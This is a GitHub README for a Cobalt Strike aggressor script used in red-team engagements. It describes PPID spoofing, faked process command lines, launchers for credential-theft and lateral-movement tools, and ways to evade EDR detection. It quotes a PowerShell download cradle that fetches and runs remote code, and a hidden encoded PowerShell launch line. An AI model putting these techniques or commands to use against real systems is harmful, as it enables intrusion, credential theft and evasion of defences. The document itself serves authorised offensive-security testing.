







## mgeekys_arsenal.cna

This is my Cobalt Strike beast aggressor script combining lots of tools, enhancements, aliases and goodies in a single CNA.

The script is under active development since 2019 and was used successfully on numerous Red Team engagements. Finally time has come to release it to the public `#RedTeam` community with aim to improve effectiveness of delivered engagements and ease our workflows with Cobalt Strike.



---

### Introduction 

A collection of my most useful goodies and enhancements for Cobalt Strike 4.0+.
Includes aliases, on beacon initial checkin automated actions (such as smart auto PPID), multiple
UI embellishes, parsing of Beacon-events data (tasked, output, input, etc), powerful hooks and alike.

---

### 1. Batteries included:

- adds command `autoppid` for automatically finding suitable PPID and setting it
- adds command `getdomain` to quickly return joined domain name
- adds command `getpid` to printout PIDs of processes matching name
- adds command `home` to change current directory to the user's home directory
- adds command `ipconfig` for listing network interfaces on the machine
- adds command `powershell-clear` for clearing the imported PowerShell script from a Beacon session
- adds command `syncall` to sync all downloaded files on demand
- adds command `whoami` for running `run whoami /user /fo list`
- adds command `assembly` as an alias for `execute-assembly`
- enhances `cd` command to make it restore previous path if `cd -` was issued
- enhances `rm` command to support multiple files/directories removal at once

- enriches `upload` command to let us use specified target remote path in a second parameter, also it computes MD5 checksum of the uploaded file

- enriches `execute-assembly` command to look for not found assemblies in a preconfigured directory.

	

- command `shell` was overridden using environment variables in the command line, thus minimizing  process tree footprint

- adds command `psh` as an alternative for `powershell`, using `base64(xor(command))` passed to STDIN 
   launch strategy (thus avoiding `-Encodedcommand`). Added benefit is better output of 
   CLIXML error-messages. **CAUTION**: Does not work with `powershell-import` though!

- adds command `powershell-clear` to clear imported powershell script.

- adds command `stracciatella-activedirectory` to ease use of ActiveDirectory Powershell module straight from Beacon's console.

	

- adds command `import-mailsniper` to import `MailSniper.ps1`
- adds command `import-powerup` to import `PowerUp.ps1`
- adds command `import-powerupsql` to import `PowerUpSQL.ps1`
- adds command `import-powerview` to import `PowerView_dev.ps1`
- adds command `import-thehash` to import `Invoke-TheHash.ps1`

    

- adds command `launch-inveigh` to launch InveighZero in specified options
- adds command `launch-monologue` to launch Internal Monologue attack by Elad Shamir
- adds command `launch-sharpshares` to launch SharpShares by Mitch Moser
- adds command `launch-powerup` to import PowerUp.ps1 and launch Invoke-AllChecks -Verbose
- adds command `launch-rubeus` to quickly launch Rubeus assembly with default options: 'triage'
- adds command `launch-seatbelt` to quickly launch SeatBelt assembly with default options: 'all'
- adds command `launch-sharphound` to launch SharpHound ingestor assembly with default options: `-c All`
- adds command `launch-sharpup` to quickly launch SharpUp assembly
- adds command `launch-sharpdpapi` to quickly launch SharpDPAPI assembly
- adds command `launch-sharpwmi` to launch modified SharpWMI assembly able to retrieve WMI command output
- adds command `launch-watson` to quickly launch Watson assembly

- adds command `kerberos-purge` to quickly purge all Kerberos tickets from Beacon's process memory

- adds beacon popup menu called _"Arsenal"_ with following sub-menus:
   - _"Job Kill"_ allowing to review list of running Jobs in a Beacon and select one to kill it.
   - _"Mass Run"_ offering: Checkin, Jobs, Getuid, Shell, Powershell, Powerpick
   - _"Launch"_ : offering handy way of invoking our defined `launch-*` aliases

   

- adds several auto-notes to Beacons on events such as: sleep changed, initial check-in, exit, 
   domain found, ppid set - that makes it handy to later keep track of such metadata
- adds automated sync-all-downloaded-files to let your downloads always land to the local filesystem.


---

### 2. When a new Beacon checks in - here's what happens

Every below behaviour is controlled via Arsenal's settings, deciding whether these actions should be run. Therefore its possible to turn all of them off.



   1. Current working directory and domain name are printed to accomodate initial Beacon's cwd & domain 
       tracked values.
   2. autoppid alias kicks in to spoof Parent PID of Beacon's future post-ex jobs
   3. If _"Preset argue..."_ option was set, we setup a predefined "argue" fake command lines for: 
       powershell, net, cmd
   4. User defined in _"Beacon Initial Actions Setup"_ automated actions are executed.
   5. User defined in _"Beacon Initial Actions Setup"_ automated argue commands are executed.
   6. Lastly, PowerView.ps1 will be imported using `import-powerview` alias.


---

### 3. Customized Powershell Command & Download Cradle:

This script introduces several different methods for Powershell download and execution primitives, other
than `(Net.WebClient).DownloadString` and `IEX()`:

```
   set POWERSHELL_DOWNLOAD_CRADLE {
       return "IEX (New-Object Net.Webclient).DownloadString(' $+ $1 $+ ')";
   }
   [...]

   set POWERSHELL_COMMAND {
   [...]
       return "powershell -nop -w hidden -encodedcommand $script";
   }
```

Aforementioned methods are heavily flagged these days by
EDRs and AVs so we would prefer to avoid their use. It so happens that Cobalt Strike by default embeds them 
excessively, generating lot of noise in such systems. We can tell Cobalt Strike to structure it's Powershell
use patterns differently. However, some of introduced custom methods may not work. In such situations, we
can always switch back to battle tested Cobalt Strike defaults by choosing "Use unsafe Powershell.." 
to Always. 

---

### 4. GUI improvements
   
   - enhances event log right status bar by adding Team Server local/remote IP addresses
   - enhances beacon console status bar by adding current working directory information and setting 
       fixed-width to last-seen meter which avoids shortening-lengthening of the right status bar's length
   - colorizes current location in 'ls' and 'pwd' Beacon outputs
   - adds timestamp information to every "host called home" line.

   That's visible on the below screenshot marked as "1":
   

   - displays Beacon's current working directory in status bar (above screenshot, positioned marked as "2")

   - adds Arsenal's specific Beacon comments, such as Beacon-number, first-checkin, ppid, sleep time, etc. to status bar (position marked as "3")

   - renames Beacons tabs every 15 seconds according to a configured format.


---

### 5. Keyboard shortcuts bound

   - `Ctrl+Tab`          - next tab
   - `Shift+Ctrl+Tab`    - previous tab
   - `Shift+Ctrl+S`      - Opens script console
   - `Ctrl+G`            - Opens credentials tab
   - `Shift+Ctrl+G`      - Open script manager tab
   - `Ctrl+H`            - Opens Host file tab
   - `Shift+Ctrl+H`      - Scripted Web Delivery window (Stageless)
   - `Ctrl+J`            - Opens downloaded files tab
   - `Ctrl+L`            - Opens listener manager
   - `Ctrl+M`            - Opens site manager
   - `Ctrl+N`            - new Teamserver connection dialog
   - `Ctrl+P`            - Opens keystroke browser
   - `Ctrl+Q`            - Opens web log tab
   - `Ctrl+U`            - Opens screenshot browser
   - `Ctrl+Y`            - Opens target browser


---

### 6. Options

   Options control some of the decisions script make. Settings are saved & loaded from an external file.
   This script also serializes and saves %OPERATING_BEACONS hash containing metadata information about our 
   beacons. If anything goes wrong, and we lose track of that hash, we can always either reload the script
   to pull settings or use menu options.

   Arsenal's options are available from Cobalt Strike's context menu:

   

   - _"On initial Beacon check-in do all the automated stuff"_ - controls whether we should issue all of the 
       automated stuff described in `When a new Beacon checks in - here's what happens` section above.
   - _"Specify local path where to save downloaded files"_ - to be used by auto-sync-downloaded-files logic
   - _"Specify local path .NET assemblies should be looked for"_ - to be used if execute-assembly didn't find
       specified assembly's name as a lookup directory, similarly to $PATH concept.
   - _"During a manual 'syncall' what to do with already existing files?"_ - skip them? overwrite?
   - _"Set this to let the script append valuable information..."_ - when enabled, this script will put 
       Beacon's metadata to it's Notes
   - _"Fake PPID on initial Beacon check-in"_
   - _"Preset new Beacons with argue fake command lines."_ - when checked, will issue "argue" for typically
       used processes: Powershell, Cmd
   - _"Use unsafe but stable Powershell [...] methods"_ - fall back on default Cobalt Strike PS download cradles.
       Select to Never to totally avoid them, seldom to use them at random and Always to disable custom ones.
   - _"Enable debug output in Script Console"_
   - _"Process name to spoof as parent in PPID"_
   - _"Service name(s) to use in PSExec lateral movement"_ - comma-separeted list of service names to be used
       by Cobalt Strike when doing jump psexec/psexec64

---

### Credits

This Aggressor script stands on the shoulder of giants utilising their splendid work:

   - fuzzysec:         https://github.com/FuzzySecurity/PowerShell-Suite
   - rasta-mouse:      https://github.com/rasta-mouse/Watson
   - Harmj0y & others: https://github.com/GhostPack/
   - Kevin Robertson:  https://github.com/Kevin-Robertson/Invoke-TheHash
   - nullbind:         https://github.com/NetSPI/PowerUpSQL
   - dafthack:         https://github.com/dafthack/MailSniper
   - PowerShellMafia:  https://github.com/PowerShellMafia/PowerSploit
   - xan7r:            https://github.com/xan7r/Misc
   - 0xthirteen:       https://github.com/0xthirteen/MoveKit

And all others offensive cyber security folks whom I may not referenced as well! Please let me know if I'm using your piece of code without properly crediting you.

---

### How it relates to other scripts in cobalt-arsenal?
 
My other scripts that were integrated into this one (so there is no need to load them again):
   - `cwd-in-beacon-status-bar.cna`
   - `better-upload.cna`
   - `httprequest.cna`
   - `smart-autoppid.cna`
   - `custom-powershell-hooks.cna`
   - `BeaconInitialTasks.cna`
   - `rename-beacon-tabs.cna`

---

### TODO

   - argue manager available from Beacon's context menu
   - explore how we could leverage results from `keystrokes()`;
   - add more keyboard shortcuts(e.g. `openWindowsExecutableStage()`)

### Author

```
   Mariusz B. / mgeeky, '19-'21
   <mb [at] binary-offensive.com>
   (https://github.com/mgeeky)
   v0.6
```

I deeply believe in sharing our tools and knowledge to improve global cybersecurity's resilience. 